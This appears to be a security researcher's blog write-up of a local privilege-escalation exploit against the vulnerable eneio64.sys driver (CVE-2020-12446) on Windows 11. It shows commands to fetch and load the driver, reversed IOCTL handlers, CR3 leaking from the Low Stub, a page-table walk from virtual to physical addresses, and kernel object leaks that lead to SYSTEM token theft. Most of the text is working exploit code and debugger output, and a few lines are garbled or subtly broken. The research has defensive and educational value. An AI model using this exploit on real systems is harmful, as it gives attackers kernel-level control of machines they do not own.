





Context
There are a number of well-known drivers that can be exploited for elevating privileges or executing code in the kernel, such as the notorious dbutil_2_3.sys or RTCore64.sys. However, in addition to Driver Signature Enforcement (DSE), Microsoft has reinforced Windows preminution against the loading of vulnerable drivers with the Vulnerable Driver Blocklist, introduced since Windows 11 22H2, and reinforced with HVCI.In the perspective of some pretty crazy experiments with VBS, my initial goal was to find a DSE-authorized driver that could provide me with write primitives on the Windows 11 kernel in order to execute arbitrary code and load my own driver into the kernel. But first I had to find out which vulnerable driver might still be authorized, so I used the HVC_LOLDrivers_check_csv.ps1 script which looks for which vulnerable drivers are supposedly authorized by HVCI. I noticed that two drivers were indeed allowed to be loaded into the kernel: rtkio.sys and eneio64.sys. Initially, I started with rtkio.sys but it gave me a lot of trouble (more on this later), then I switched to eneio64.sys.

PS C:\Windows\System32> Invoke-WebRequest -Uri "https://github.com/magicsword-io/LOLDrivers/raw/main/drivers/66066d9852bc65988fb4777f0ff3fbb4.bin" -OutFile "C:\Users\User\Downloads\eneio64.sys"; sc.exe create eneio64_2 binPath=C:\Users\User\Downloads\eneio64.sys type=kernel; sc.exe start eneio64_2
SERVICE_NAME: eneio64_2
TYPE : 1 KERNEL_DRIVER
STATE : 4 RUNNING
(STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
WIN32_EXIT_CODE : 0 (0x0)
SERVICE_EXIT_CODE : 0 (0x0)
CHECKPOINT : 0x0
WAIT_HINT : 0x0
PID : 0
FLAGS :
The driver was loaded, but I still had to check if I could interact with it from a low-level integrity process. This can be checked via the Security Descriptor of the object associated with the driver:
1: kd> !object \Device
Object: ffffe282fae59940 Type: (ffffd1090b2c1900) Directory
[....]
34 ffffd10912ff4a00 Device GLCKIo
1: kd> dt _DEVICE_OBJECT ffffd10912ff4a00 SecurityDescriptor
nt!_DEVICE_OBJECT
+0x110 SecurityDescriptor : 0xffffe282`faf880a0 Void
1: kd> !sd 0xffffe282`faf880a0
->Revision: 0x1
->Sbz1 : 0x0
->Control : 0x8814
SE_DACL_PRESENT
SE_SACL_PRESENT
SE_SACL_AUTO_INHERITED
SE_SELF_RELATIVE
->Owner : S-1-5-32-544
->Group : S-1-5-18
->Dacl :
->Dacl : ->AclRevision: 0x2
->Dacl : ->Sbz1 : 0x0
->Dacl : ->AclSize : 0x5c
->Dacl : ->AceCount : 0x4
->Dacl : ->Sbz2 : 0x0
->Dacl : ->Ace[0]: ->AceType: ACCESS_ALLOWED_ACE_TYPE
->Dacl : ->Ace[0]: ->AceFlags: 0x0
->Dacl : ->Ace[0]: ->AceSize: 0x14
->Dacl : ->Ace[0]: ->Mask : 0x001201bf
->Dacl : ->Ace[0]: ->SID: S-1-1-00x001201bf, and the sd.py script shows that we have all the rights required to interact with the driver, so let's roll.
PS C:\> python3.12.exe .\sd.py
Access Mask: 0x001201bf
Rights associated with the mask:
- STANDARD_RIGHTS_EXECUTE
- SYNCHRONIZE
- FILE_READ_DATA
- FILE_WRITE_DATA
- FILE_APPEND_DATA
- FILE_READ_EA
- FILE_WRITE_EA
- FILE_EXECUTE
- FILE_READ_ATTRIBUTES
- FILE_WRITE_ATTRIBUTES
- STANDARD_RIGHTS_ALLVulnerability Overview: Read/Write Access to Physical Memory
The CVE associated with the vulnerability affecting eneio64.sys is CVE-2020-12446. CVEdetails.com states that "The ene.sys driver in G.SKILL Trident Z Lighting Control up to version 1.00.08 exposes physical memory mapping and unmapping, reading and writing of MSR (Model Specific Register) registers, as well as I/O port entry and exit to unprivileged local users".Unlike the usual primitives exposed by vulnerable drivers, eneio64.sys offers the ability to write to and read from the system's physical memory, but as we're working with virtual addresses, I was interested in how to convert virtual addresses, particularly those of objects leaked in user mode such as EPROCESS and KTHREAD objects or pool addresses, into physical addresses in order to bridge the gap and pretend we had a vulnerable driver offering write primitives on virtual addresses without worrying about their physical ones. This write-up explains how I managed to do it, and the result is pretty cool.
The driver is quite easy to analyze: IOCTL 0x80102040 explicitly shows that some physical memory is mapped when it is triggered. User-controlled data are copied to input (labeled) and this parameter is passed as the second parameter of sub_1400011D0, this same input is then sent back to the user indicating that some data in the input structure are filled in before being sent back. Note that the value of physicalAddress is never filled in and is not a returned value.
[...]
DbgPrint("Entering WinIoDispatch");
irp->IoStatus.Status = 0;
irp->IoStatus.Information = 0i64;
irp_curstackloc = sub_140001180(irp);
MasterIrp = irp->AssociatedIrp.MasterIrp;
Options = irp_curstackloc->Parameters.Create.Options;
Length = irp_curstackloc->Parameters.Read.Length;
MajorFunction = irp_curstackloc->MajorFunction;
if ( MajorFunction )
{
if ( MajorFunction == 2 )
{
DbgPrint("IRP_MJ_CLOSE");
}
else if ( MajorFunction == 0xE )
{
DbgPrint("IRP_MJ_DEVICE_CONTROL");
LowPart = irp_curstackloc->Parameters.Read.ByteOffset.LowPart;
v8 = LowPart + 2146426816;
switch ( LowPart )
{
case 0x80102040:
DbgPrint("IOCTL_WINIO_MAPPHYSTOLIN");
if ( Options )
{
qmemcpy(input, MasterIrp, Options);
Status = sub_1400011D0(
*(PHYSICAL_ADDRESS *)physicalAddress,
*(SIZE_T *)input,
(PVOID *)v21,
(void **)sectionHandle,
&object);
if ( Status >= 0 )
{
qmemcpy(MasterIrp, input, Options);
irp->IoStatus.Information = Options;
}
[...]
__int64 __fastcall sub_1400011D0(
PHYSICAL_ADDRESS physAddr,
SIZE_T input,
PVOID *a3,
void **sectionHandle,
PVOID *Object)
{
[...]
SectionHandle = sectionHandle;
v18 = a3;
input_2 = input;
BaseAddress = 0i64;
DbgPrint("Entering MapPhysicalMemoryToLinearSpace");
RtlInitUnicodeString(&device_physmem, L"\\Device\\PhysicalMemory");
ObjectAttributes.Length = 0x30;
ObjectAttributes.RootDirectory = 0i64;
ObjectAttributes.Attributes = 0x40;
ObjectAttributes.ObjectName = &device_physmem;
ObjectAttributes.SecurityDescriptor = 0i64;
ObjectAttributes.SecurityQualityOfService = 0i64;
*SectionHandle = 0i64;
*Object = 0i64;
handleObj = ZwOpenSection(SectionHandle, 0xF001Fu, &ObjectAttributes);
if ( handleObj < 0 )
{
DbgPrint("ERROR: ZwOpenSection failed");
}
else
{
handleObj = ObReferenceObjectByHandle(*SectionHandle, 0xF001Fu, 0i64, 0, Object, 0i64);
if ( handleObj < 0 )
{
DbgPrint("ERROR: ObReferenceObjectByHandle failed");
}
else
{
BusAddress = physAddr;
TranslatedAddress.QuadPart = input_2 + physAddr.QuadPart;
AddressSpace = 0;
v8 = HalTranslateBusAddress(Isa, 0, physAddr, &AddressSpace, &BusAddress);
AddressSpace = 0;
v7 = HalTranslateBusAddress(Isa, 0, TranslatedAddress, &AddressSpace, &TranslatedAddress);
if ( v8 && v7 )
{
input_2 = TranslatedAddress.QuadPart - BusAddress.QuadPart;
SectionOffset = BusAddress;
handleObj = ZwMapViewOfSection(
*SectionHandle,
(HANDLE)-1i64,
&BaseAddress,
0i64,
TranslatedAddress.QuadPart - BusAddress.QuadPart,
&SectionOffset,
&input_2,
ViewShare,
0,
0x204u);
if ( handleObj == 0xC0000018 )
handleObj = ZwMapViewOfSection(
*SectionHandle,
(HANDLE)-1i64,
&BaseAddress,
0i64,
input_2,
&SectionOffset,
&input_2,
ViewShare,
0,
4u);
if ( handleObj >= 0 )
{
BaseAddress = (char *)BaseAddress + BusAddress.QuadPart - SectionOffset.QuadPart;
*v18 = BaseAddress;
[...]MEMORYSTATUSEX memoryStatus;
memoryStatus.dwLength = sizeof(memoryStatus);
if (GlobalMemoryStatusEx(&memoryStatus)) {
printf("[*] Total physical memory: ~0x%llx bytes\n", memoryStatus.ullTotalPhys);
}
else {
printf("[X] Failed to retrieve memory information. Error: %lu\n", GetLastError());
}[*] Total physical memory: ~0x1a55f9000 bytes
typedef struct _INPUTBUF
{
ULONG64 val1;
ULONG64 val2;
ULONG64 val3;
ULONG64 val4;
ULONG64 val5;
} INPUTBUF;
INPUTBUF* inbuf = (INPUTBUF*)malloc(sizeof(INPUTBUF));
inbuf->size = (memoryStatus.ullTotalPhys);
inbuf->val1 = 0;
inbuf->val2 = 0;
inbuf->mappingAddress = 0;
inbuf->val3 = 0;
BOOL success = DeviceIoControl(
drv,
IOCTL_WINIO_MAPPHYSTOLIN,
inbuf,
sizeof(INPUTBUF),
inbuf,
sizeof(INPUTBUF),
&bytes_returned,
(LPOVERLAPPED)NULL
);
0: kd> bp eneio64+0x19F3
0: kd> g
Breakpoint 2 hit
eneio64+0x19f3:
fffff807`6eff19f3 488d842498000000 lea rax,[rsp+98h]
1: kd> dqs rsp+78h L5
ffffbb01`9ba2f688 00000001`a55f9000
ffffbb01`9ba2f690 00000000`00000000
ffffbb01`9ba2f698 00000000`00000000
ffffbb01`9ba2f6a0 00000000`00000000
ffffbb01`9ba2f6a8 00000000`00000000
qmemcpy(MasterIrp, input, Options) (.text:0000000140001A2D), the function that takes the input structure and copies it into the output buffer. We inspect RSP+0x78 once again and see that some structure members have been filled in.
We obtain the virtual address of the section view (0x000001b8c5c50000), which is mapped to the calling process virtual memory space, as well as the address of the PhysicalMemory section object (0xffffc10fe92cd190).
0: kd> bp eneio64+0x1A2D
0: kd> g
Breakpoint 0 hit
eneio64+0x19de:
fffff807`6eff19de 8b442430 mov eax,dword ptr [rsp+30h]
2: kd> dqs rsp+0x78
ffffbb01`9b477688 00000001`a91f9000
ffffbb01`9b477690 00000000`00000000
ffffbb01`9b477698 00000000`000000cc
ffffbb01`9b4776a0 000001b8`c5c50000
ffffbb01`9b4776a8 ffffc10f`e92cd190
2: kd> !object ffffc10f`e92cd190
Object: ffffc10fe92cd190 Type: (ffffe7045e5f5820) Section
ObjectHeader: ffffc10fe92cd160 (new version)
HandleCount: 1 PointerCount: 32771
Directory Object: ffffc10fe928b0a0 Name: PhysicalMemory
dd command which displays the values contained in a virtual address as a sequence of 4-byte values, !dd does the same thing but for physical addresses.
6: kd> dd 000001a5`0c120000+5000 L10
000001a5`0c125000 c000c000 fffff7b0 7d2f8110 fffff804
000001a5`0c125010 f7ff90e8 00000000 54445358 0000005c
000001a5`0c125020 52560401 4c415554 5243494d 5446534f
000001a5`0c125030 00000001 5446534d 00000001 f7ff8000
6: kd> !dd 0x0+5000 L10
# 5000 c000c000 fffff7b0 7d2f8110 fffff804
# 5010 f7ff90e8 00000000 54445358 0000005c
# 5020 52560401 4c415554 5243494d 5446534f
# 5030 00000001 5446534d 00000001 f7ff8000

We can now rename the input structure members as follows: the first member is the amount of physical memory we would lke to map and the 4th one is the address to the map's view that is filled by the driver once the section mapping is done:
typedef struct _INPUTBUF {
ULONG64 size;
ULONG64 val2;
ULONG64 val3;
ULONG64 mappingAddress;
ULONG64 val5;
} INPUTBUF;
Note that the driver also provides section unmapping through IOC xTL 0x80102044. The exploit use it to unmap the physical memory section at the end of its execution or if an error occurs.
case 0x80102044:
DbgPrint("IOCTL_WINIO_UNMAPPHYSADDR");
if ( Options )
{
qmemcpy(input, MasterIrp, Options);
Status = sub_140001650(*(void **)sectionHandle, *(void **)v21, object);
irp->IoStatus.Status = Status;
}
else
{
irp->IoStatus.Status = 0xC000000D;
}Crafting the Exploit
OK, we've got the structure that the driver takes as input, we've got a way of having read and write access to all available physical memory, but what do we do with that? My intention is to be able to convert any virtual address, including those present in the kernel, into a physical address, which would make any possible exploitation technique achievable on this driver as if we had any other driver providing access to virtual memory.To convert a virtual address into a physical one, the operating system relies on a hierarchical structure of 4 different page tables: PML4 (Page Map Level 4), PDPT (Page Directory Pointer Table), PDT (Page Directory Table), and PT (Page Table). Each of these tables plays a specific role in the translation process. The PML4 table is the top-level table and contains entries that point to the PDPT. The PDPT, in turn, contains entries that reference the PDT, and the PDT entries point to the PT. Finally, the PT contains entries that directly reference the physical address in memory. This multi-level approach allows the operating system to manage memory efficiently, especially in systems with large address spaces.
Additionally, the concept of PFN (Page Frame Number) is crucial in this process. The PFN is a part of the physical address and represents the specific page frame in physical memory where the data is stored. When the final PT entry is resolved, it provides the PFN, which is then combined with an offset (derived from the virtual address) to form the complete physical address. This offset identifies the exact location within the page frame.
While this explanation provides a very very very high-level overview, this topic is quite complex and involves intricate details about memory management and address translation. For a more in-depth understanding, I strongly recommend referring to this excellent blog post by Connor McGarr, which thoroughly explains how this translation process works in practice.

The CR3 Control Register contains the physical address of the PML4 table, the top-level page table. During virtual-to-physical address translation, the CPU uses CR3 to locate PML4. This starts the page table walk, where each table entry points to the next level (PDPT, PDT, PT), ultimately leading to the physical address. If none of this sounds familiar, just keep in mind that CR3 provides the starting point for the translation process.
We have an entire map of physical memory, so the translation process, which relies on finding entries in physical addresses, is within reach, but we still need one essential thing: the value of CR3.
The beginning of the physical memory layout contains a structure called the Low Stub, of type PROCESSOR_START_BLOCK. The Low Stub was originally located at a fixed address at the beginning of physical memory, but is randomized in recent versions of Windows, and is always between
0x10000 and 0x20000. nt!HalpLowStub points to the Low Stub virtual address. This structure contains (among other things) a pointer to nt!HalpLMStub followed by the value of CR0, CR3 and CR4, respectively.
0: kd> dqs poi(nt!HalpLowStub) L20
fffff7b0`c000b000 00000001`00064de9
fffff7b0`c000b008 1018003f`00000001
fffff7b0`c000b010 00000000`00000001
fffff7b0`c000b018 00000000`00000000
fffff7b0`c000b020 00000000`00000000
fffff7b0`c000b028 00209b00`00000000
fffff7b0`c000b030 00000000`00000000
fffff7b0`c000b038 00cf9300`0000ffff
fffff7b0`c000b040 00000000`00000000
fffff7b0`c000b048 00cf9b00`0000ffff
fffff7b0`c000b050 00000000`00000000
fffff7b0`c000b058 00000000`f7fff000
fffff7b0`c000b060 16da0030`0001167c
fffff7b0`c000b068 00000000`00100001
fffff7b0`c000b070 fffff804`7ca10890 nt!HalpLMStub
fffff7b0`c000b078 fffff7b0`c000b000
fffff7b0`c000b080 00070106`00070106
fffff7b0`c000b088 00000000`00000901
fffff7b0`c000b090 00000000`80050033 -> CR0
fffff7b0`c000b098 00000000`00000000
fffff7b0`c000b0a0 00000000`007d5000 -> CR3
fffff7b0`c000b0a8 00000000`00350ef8 -> CR4
[...]

For Windows 11 22H2, nt!HalpLMStub is contained at offset
0x410890 of ntoskrnl.exe.
0: kd> ? nt!HalpLMStub - nt
Evaluate expression: 4262032 = 00000000`00410890
ULONG64 GetNtosBase() {
LPVOID driverBaseAddresses[1024];
DWORD sizeRequired;
if (EnumDeviceDrivers(driverBaseAddresses, sizeof(driverBaseAddresses), &sizeRequired)) {
return (ULONG64)driverBaseAddresses[0];
}
return NULL;
}
ULONG64 HalpLmStub = GetNtosBase() + 0x00410890;
INPUTBUF* inbuf = (INPUTBUF*)malloc(sizeof(INPUTBUF));
inbuf->Size = (memoryStatus.ullTotalPhys);
inbuf->val2 = 0;
inbuf->val3 = 0;
inbuf->MappingAddress = 0;
inbuf->val5 = 0;
BOOL success = DeviceIoControl(
drv,
IOCTL_WINIO_MAPPHYSTOLIN,
inbuf,
sizeof(INPUTBUF),
inbuf,
sizeof(INPUTBUF),
&bytes_returned,
(LPOVERLAPPED)NULL
);
if (success) {
wprintf(L"[*] Mapped %llx bytes at %p\n", inbuf->Size, inbuf->MappingAddress);
BYTE* memory_data = (BYTE*)inbuf->MappingAddress;
UINT64 halpLmStubPhysicalPointer = 0;
DWORD_PTR physical_offset;
for (physical_offset = 0x10000; physical_offset < 0x20000; physical_offset += sizeof(UINT64)) {
UINT64 qword_value = 0;
for (size_t i = 0; i < sizeof(UINT64); ++i) {
qword_value |= (UINT64)(memory_data[physical_offset + i]) << (i * 8);
}
if (qword_value == HalpLmStub) {
std::cout << "[*] Found nt!HalpLMStub in Low Stub at " << std::hex << qword_value << std::endl;
halpLmStubPhysicalPointer = qword_value;
break;
}
}
if (halpLmStubPhysicalPointer == 0) {
std::cout << "[X] Cannot find nt!HalpLMStub in Low Stub" << std::endl;
}
ULONG32 cr3 = 0;
for (size_t i = 0; i < sizeof(ULONG32); ++i) {
cr3 |= (ULONG32)(memory_data[physical_offset + 0x30 + i]) << (i * 8);
}
std::cout << "[*] Leaked CR3 -> " << std::hex << cr3 << std::endl;
UINT64 VirtualToPhysical(UINT64 cr3, UINT64 virtualAddr, BYTE* map) {
UINT64 physicalAddr = 0;
uint16_t PML4 = (uint16_t)((virtualAddr >> 39) & 0x1FF);
uint16_t DirectoryPtr = (uint16_t)((virtualAddr >> 30) & 0x1FF);
uint16_t Directory = (uint16_t)((virtualAddr >> 21) & 0x1FF);
uint16_t Table = (uint16_t)((virtualAddr >> 12) & 0x1FF);
uint64_t PML4E = 0;
for (size_t i = 0; i < sizeof(uint64_t); ++i) {
PML4E |= (uint64_t)(map[(cr3 + PML4 * sizeof(uint64_t)) + i]) << (i * 8);
}
std::cout << "\t[*] PML4E at " << std::hex << PML4E << std::endl;
uint64_t PDPTE = 0;
for (size_t i = 0; i < sizeof(uint64_t); ++i) {
PDPTE |= (uint64_t)(map[((PML4E & 0xFFFF1FFFFFF000) + (uint64_t)DirectoryPtr * sizeof(uint64_t)) + i]) << (i * 8);
}
std::cout << "\t[*] PDPTE at " << std::hex << PDPTE << std::endl;
if ((PDPTE & (1 << 7)) != 0) {
physicalAddr = (PDPTE & 0xFFFFFC0000000) + (virtualAddr & 0x3FFFFFFF);
return physicalAddr;
}
uint64_t PDE = 0;
for (size_t i = 0; i < sizeof(uint64_t); ++i) {
PDE |= (uint64_t)(map[((PDPTE & 0xFFFFFFFFFF000) + (uint64_t)Directory * sizeof(uint64_t)) + i]) << (i * 8);
}
std::cout << "\t[*] PDE at " << std::hex << PDE << std::endl;
if ((PDE & (1 << 7)) != 0) {
physicalAddr = (PDE & 0xFFFFFFFE00000) + (virtualAddr & 0x1FFFFF);
return physicalAddr;
}
uint64_t PTE = 0;
for (size_t i = 0; i < sizeof(uint64_t); ++i) {
PTE |= (uint64_t)(map[((PDE & 0xFFFFFFFFFF000) + (uint64_t)Table * sizeof(uint64_t)) + i]) << (i * 8);
}
std::cout << "\t[*] PTE at " << std::hex << PTE << std::endl;
physicalAddr == (PTE & 0xFFFFFFFFFF000) + (virtualAddr & 0xFFF);
return physicalAddr;
}To illustrate the effectiveness of this conversion mechanism, we'll use the driver to elevate privileges by stealing SYSTEM's token. To begin with, let's find out how to obtain the address of the EPROCESS object of the process to which the stolen token will be copied. The LeakKthread() function leaks the address of a thread's KTHREAD object.
ULONG64 LeakKTHREAD(HANDLE dummythreadHandle)
{
NTSTATUS retValue = STATUS_INFO_LENGTH_MISMATCH;
int size = 1;
PULONG outSize = 0;
PSYSTEM_HANDLE_INFORMATION out = (PSYSTEM_HANDLE_INFORMATION)malloc(size);
if (out == NULL)
{
goto exit;
}
do
{
free(out);
size = size * 2;
out = (PSYSTEM_HANDLE_INFORMATION)malloc(size);
if (out == NULL)
{
goto exit;
}
retValue = NtQuerySystemInformation2(
SystemHandleInformation,
out,
(ULONG)size,
outSize
);
} while (retValue == STATUS_INFO_LENGTH_MISMATCH);
if (retValue != STATUS_SUCCESS)
{
if (out != NULL)
{
free(out);
goto exit;
}
goto exit;
}
else
{
for (ULONG i = 0; i < out->HandleCount; i++)
{
DWORD objectType = out->Handles[i].ObjectTypeNumber;
if (out->Handles[i].ProcessId == GetCurrentProcessId())
{
if (dummythreadHandle == (HANDLE)out->Handles[i].Handle)
{
ULONG64 kthreadObject = (ULONG64)out->Handles[i].Object;
free(out);
return kthreadObject;
}
}
}
}
exit:
CloseHandle(dummythreadHandle);
return (ULONG64)retValue;
}
void randomFunction(void) { return; }
HANDLE createdummyThread(void)
{
HANDLE dummyThread = CreateThread(
NULL,
0,
(LPTHREAD_START_ROUTINE)randomFunction,
NULL,
CREATE_SUSPENDED,
NULL
);
if (dummyThread == (HANDLE)-1) { goto exit; }
else { return dummyThread; }
exit:
return (HANDLE)-1;
}
HANDLE dummyHandle = createdummyThread();
ULONG64 kthread = LeakKTHREAD(dummyHandle);
HANDLE dummyHandle = 0;
ULONG64 kthread = 0x0;
UINT64 kThreadPhysical = 0;
do {
dummyHandle = createdummyThread();
kthread = LeakKTHREAD(dummyHandle);
kThreadPhysical = VirtualToPhysical(cr3, kthread, memory_data);
} while (kThreadPhysical == 0);
std::cout << "[*] KTHREAD at " << std::hex << kthread << std::endl;
if (kThreadPhysical != 0x0) {
std::cout << "[*] KTHREAD Physical Address at " << kThreadPhysical << std::endl;
}
else {
UnMapViewOfSection(drv, inbuf);
std::cout << "[X] Failed to retrieve Physical Address for KTHREAD. Spawning new thread..." << std::endl;
}
8: kd> dt _KTHREAD Process
nt!_KTHREAD
+0x220 Process : Ptr64 _KPROCESS
UINT64 kprocessPointerPhysical = kThreadPhysical + KTHREAD_PROCESS_OFFSET;
UINT64 currentProcAddr = 0;
for (size_t i = 0; i < sizeof(UINT64); ++i) {
currentProcAddr |= (UINT64)(memory_data[kprocessPointerPhysical + i]) << (i * 8);
}
std::cout << "[*] Current Proc EPROCESS at " << std::hex << currentProcAddr << std::endl;
UINT64 currentProcPhysical = VirtualToPhysical(cr3, currentProcAddr, memory_data);
if (currentProcPhysical == 0x0) {
UnMapViewOfSection(drv, inbuf);
std::cerr << "[X] Current Process EPROCESS not valid (= 0). Spawning new process..." << std::endl;
restart_process();
}
std::cout << "[*] Current Proc EPROCESS Physical at " << std::hex << currentProcPhysical << std::endl;
ULONG64 LeakSystemPoolAddr() {
unsigned int len = sizeof(SYSTEM_BIGPOOL_INFORMATION);
unsigned long out;
PSYSTEM_BIGPOOL_INFORMATION info = NULL;
NTSTATUS status = ERROR;
do {
len *= 2;
info = (PSYSTEM_BIGPOOL_INFORMATION)GlobalAlloc(GMEM_ZEROINIT, len);
status = NtQuerySystemInformation2(SystemBigPoolInformation, info, len, &out);
} while (status == (NTSTATUS)0xc0000004);
if (!SUCCEEDED(status)) {
printf("NtQuerySystemInformation failed with error code 0x%X\n", status);
return NULL;
}
for (unsigned int i = 0; i < info->Count; i++) {
SYSTEM_BIGPOOL_ENTRY poolEntry = info->AllocatedInfo[i];
if (poolEntry.TagUlong != 0x636f7250) {
continue;
}
printf("[*] Tag: %.*s, Address: 0x%llx, Size: 0x%x\n", 4, poolEntry.Tag, poolEntry.VirtualAddress, poolEntry.SizeInBytes);
return (UINT64)poolEntry.VirtualAddress;
}
return NULL;
}
UINT64 sysProcPoolAddr = LeakSystemPoolAddr();
UINT64 sysProcAddr = sysProcPoolAddr + 0x3f;
std::cout << "[*] System EPROCESS at " << sysProcAddr << std::endl;
UINT64 physicalSysPoolAddr = VirtualToPhysical(cr3, sysProcAddr, memory_data);
std::cout << "[*] System EPROCESS physical addr at " << std::hex << physicalSysPoolAddr << std::endl;
UINT64 systemTokenPhysAddr = physicalSysPoolAddr + EPROCESS_TOKEN_OFFSET;
std::cout << "[*] System Token physical addr at " << std::hex << systemTokenPhysAddr << std::endl;
UINT64 systemToken = 0;
for (size_t i = 0; i < sizeof(UINT64); ++i) {
systemToken |= (UINT64)(memory_data[systemTokenPhysAddr + i]) << (i * 8);
}
